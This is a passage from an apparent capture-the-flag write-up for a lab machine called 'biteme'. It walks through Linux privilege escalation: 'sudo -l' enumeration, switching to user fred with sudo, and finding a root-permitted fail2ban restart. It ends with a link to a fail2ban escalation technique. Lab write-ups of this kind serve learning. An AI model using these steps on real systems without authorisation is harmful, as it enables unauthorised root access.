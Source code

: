 
We can now begin privilege escalation.



# PRIVILEGE ESCALATION
---


Let's check our privileges:

```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
 (ALL : ALL) ALL
 (fred) NOPASSWD: ALL
```

We can run any commands as fred without a password, let's switch users then:

```
sudo -u fred /bin/bash
```

![Pasted image 20250609163806.png](../../IMAGES/Pasted%20image%2020250609163806.png)

Let's check our privileges then:

```
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
 (root) NOPASSWD: /bin/systemctl restart fail2ban
```

We can restart the fail2ban service, let's check info on how to escalate privileges with it:

PRIVESC: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc
